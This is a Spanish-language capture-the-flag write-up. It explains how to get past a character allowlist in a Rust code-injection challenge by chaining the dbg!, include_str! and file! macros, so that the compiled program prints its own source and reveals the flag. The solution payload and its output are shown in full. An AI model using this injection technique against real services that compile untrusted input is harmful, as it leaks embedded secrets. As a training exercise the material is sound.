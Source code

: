 El programa nos pide introducir código para insertarlo en template.rs pero tiene restricciones, que se pueden ver en runner.py

``` bash
 nc localhost 1337
Input your code to insert into template.rs.
One expr!
> let a = 1
This is too complicated, make it simpler! ('=' symbols are not allowed)
```

``` rust
// template.rs
fn safe_function() {
    /// *** YOUR CODE *** ///;
}

fn main() {
    let flag = "/// *** MY FLAG *** ///";

    safe_function();
}
```

El programa toma nuestro código, lo copia en safe_function(), copia la flag en la variable del mismo nombre y compila el programa. Entre los caracteres permitidos se notan "_!()", esto indica que se pueden usar [macros](https://doc.rust-lang.org/reference/macros.html)


``` python3
# runner.py
ALLOWED_CHARACTERS = string.ascii_letters + string.digits + " _!()"
if any(c not in ALLOWED_CHARACTERS for c in code):
    disallowed = set(c for c in code if c not in ALLOWED_CHARACTERS)
    print(f"This is too complicated, make it simpler! ('{''.join(disallowed)}' symbols are not allowed)")
    exit(1)
```

Entonces estas son las macros importantes para el proceso:

+ [file!()](https://doc.rust-lang.org/std/macro.file.html) : Devuelve al nombre del archivo en la cual fue invocada

+ [include_str!(archivo)](https://doc.rust-lang.org/std/macro.include_str.html): Devuelve un archivo codificado en UTF-8 como una cadena

+ [dbg!(expresion)](https://doc.rust-lang.org/std/macro.dbg.html) Imprime el valor de una expresión, junto con información sobre el archivo, la línea y la expresión misma

Juntando estas tres:
+ file!() obtiene la ruta del archivo e el que se encuentra
+ include_str!(file()) guarda en una string el codigo fuente del codigo
+ dbg!(include_str!(file())) lo imprime en pantalla

``` bash
 nc localhost 1337
Input your code to insert into template.rs.
One expr!
> dbg!(include_str!(file!()))
[/tmp/main.rs:3:5] include_str!(file!()) = "\nfn safe_function() {\n    dbg!(include_str!(file!()));\n}\n\nfn main() {\n    let flag = \"wwf{REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED}\";\n\n    safe_function();\n}\n"
```
